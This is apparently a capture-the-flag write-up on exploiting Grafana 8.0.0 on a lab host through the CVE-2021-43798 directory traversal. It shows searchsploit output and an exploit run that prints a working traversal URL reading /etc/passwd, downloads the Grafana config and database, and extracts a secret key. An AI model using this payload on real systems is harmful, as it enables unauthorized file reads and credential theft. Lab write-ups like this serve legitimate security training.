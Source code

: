 We see 2 open ports, ssh 7.6 and the http server on port 3000 looks interesting.

# Grafana port 3000
On the login page we see Grafana version 8.0.0

```
~
❯ searchsploit grafana
-------------------------------------------------------------------
 Exploit Title
-------------------------------------------------------------------
Grafana 7.0.1 - Denial of Service (PoC)
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
Grafana <=6.2.4 - HTML Injection
-------------------------------------------------------------------
```

Grafana below 8.3.0 is vulnerable, so we can attack our target.

## Exploitation
Before I run the [exploit](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798), I added the line `10.10.100.11 data.vl` in `/etc/hosts`.

```
┌─[qrxnz@parrot]─[~/ezploits/exploit-grafana-CVE-2021-43798]
└──╼ $python3 exploit.py 
  _____   _____   ___ __ ___ _     _ _ ________ ___ ___ 
 / __\ \ / / __|_|_  )  \_  ) |___| | |__ /__  / _ ( _ )
| (__ \ V /| _|___/ / () / /| |___|_  _|_ \ / /\_, / _ \
 \___| \_/ |___| /___\__/___|_|     |_|___//_/  /_/\___/
                @pedrohavay / @acassio22

? Enter the target list:  ./targets.txt

========================================

[i] Target: http://data.vl:3000

[!] Payload "http://data.vl:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd" works.

[i] Analysing files...

[i] File "/conf/defaults.ini" found in server.
[*] File saved in "./http_data_vl_3000/defaults.ini".

[i] File "/etc/grafana/grafana.ini" found in server.
[*] File saved in "./http_data_vl_3000/grafana.ini".

[i] File "/etc/passwd" found in server.
[*] File saved in "./http_data_vl_3000/passwd".

[i] File "/var/lib/grafana/grafana.db" found in server.
[*] File saved in "./http_data_vl_3000/grafana.db".

[i] File "/proc/self/cmdline" found in server.
[*] File saved in "./http_data_vl_3000/cmdline".

? Do you want to try to extract the passwords from the data source?  Yes

[i] Secret Key: SW2YcwTIb9zpOOhoPsMm

[*] Bye Bye!
```